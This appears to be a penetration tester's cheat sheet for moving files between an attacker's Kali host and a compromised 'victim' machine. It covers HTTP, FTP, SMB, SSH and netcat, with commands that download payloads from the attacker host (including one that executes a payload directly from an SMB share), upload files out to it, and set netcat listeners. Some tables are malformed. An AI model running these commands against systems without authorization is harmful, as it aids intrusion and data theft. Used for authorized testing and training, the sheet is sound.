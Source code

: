 

# Transfering files
## HTTP

| Sending Linux    | Receiving Linux | Receiving Windows |
| -------- | ------- | ------- |
| python3 -m http.server 8080  | wget http://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>) <br> curl http://<kali_IP>:<Port_number>/<file> (-o /path/to/dir/<file>) | certutil -urlcache -split -f "" [output-file] <br> powershell -c (new-object System.Net.WebClient).DownloadFile('http://<kali_IP>:<Port_number>/<file>,'C:\path\to\<file>') <br> to instantly execute it: ...|



Sending to Linux:

https://gist.github.com/fabiand/5628006
SimpleHTTPPutServer.py

# python3 -m SimpleHTTPPutServer 8080

from http.server import HTTPServer, SimpleHTTPRequestHandler

class PutHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_PUT(self):
        print(self.headers)
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()


def run(server_class=HTTPServer, handler_class=PutHTTPRequestHandler):
    server_address = ('', 8000)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

if __name__ == '__main__':
    run()


curl -T <file> http://<kali_IP>:<Port_number>

## FTP
Kali -> Victim

| Kali    | Linux Victim | Windows Victim cmd.exe |
| -------- | ------- |
| python3 -m http.server 8080  | wget ftp://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>) | ...|
| python3 -m pytfplib -w -p <Port_number>

## SMB

Kali -> Victim

| Kali    | Windows Victim PowerShell |
| -------- | ------- |
| impacket-smbserver <server_name> .  | to instantly execute it: powershell -c (\\<kali_IP\<server_name>\<payload) |

impacket-smbserver <server_name> .

## SSH
| Sending    | Receiving |
| ------- | ------- |
| scp <file_name> <remote_username>@<remote_IP>:/path/to/dir | scp <remote_username>@(remote_IP):/path/to/<file_name> /path/to/local_dir |

## NetCat

| Sending | Receiving |
| -------- | ------- |
| nc -w 3 [destination] <Port_number> < <file_name> | nc -l -p <Port_number> > <file_name> |
| | nc -lvnp <Port_number> |



Useful notes:
- on Linux receiving: worth using /tmp directory, as it is globally readable, writeable and executable
- upgrade your shell, if possible
- try multiple methods
